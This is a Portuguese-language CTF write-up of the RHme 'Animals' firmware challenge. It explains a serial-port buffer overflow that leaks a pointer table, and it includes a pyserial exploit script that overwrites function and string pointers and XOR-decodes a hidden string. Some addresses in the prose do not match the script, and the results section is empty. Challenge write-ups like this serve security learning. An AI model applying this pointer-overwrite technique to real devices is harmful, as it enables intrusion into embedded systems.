

# RHme - Animals WriteUP

---

Este desafio apresenta um firmware que permite ao usuário escolher entre 3 animais ASCII art: `cat`, `dog` ou `mouse`. A comunicação é feita via porta serial e, inicialmente, o firmware responde corretamente apenas com as artes predefinidas.

Porém, com análise mais profunda, é possível abusar de um **buffer overflow** que permite sobrescrever ponteiros de tabela e acessar um **endereço oculto**, desbloqueando a flag.

---

## Análise do Comportamento

Ao enviar “dog”:



Após envio de strings longas, como:

```
dogaaaaaaaaaaaaaaaaaaaaa

```

Começamos a obter **resíduos de memória**. Isso indica que o firmware está acessando dados fora do buffer original. Ao analisar os bytes de resposta, identificamos uma estrutura de **tabela de ponteiros**:

```
cat   = 0x015e
dog   = 0x0158
mouse = 0x0152
???   = 0x014c ← essa é a chave!

```

---

## O Exploit

Para executar o exploit, utilizamos a biblioteca `pyserial` para enviar comandos pela porta COM3 e sobrescrevemos os ponteiros usados pelo firmware:

```python
import serial
import struct

ser = serial.Serial('COM3', 19200, timeout=2)
ser.rts = 0
ser.read_until(b">")

ser.write(b"dog")                      # comando base
ser.write(b"\\x41" * 7)                 # preenchimento
ser.write(b"\\x00")                     # contador de nome (0)
ser.write(b"\\x41" * 9)                 # padding extra
ser.write(struct.pack('<H', 0x152))    # ponteiro sobrescrito para func
ser.write(struct.pack('<H', 0x36b))    # ponteiro para string
ser.write(b"\\r\\n\\r\\n")

ser.read_until(b">")
ser.read_until(b"\\r\\n\\r\\n")
dmp = ser.read_until(b"\\r\\n\\r\\n")
li = dmp.split(b'\\r\\n')

for l in li:
    decoded = ''.join([chr(c ^ 0xdd) for c in l])
    print(decoded)

ser.close()

```

- `\\x014c` foi substituído como endereço de arte escondida.
- `\\x36b` aponta para uma string, criptografada via XOR com `0xdd`.

---

## Resultado

A execução do script resulta em:


---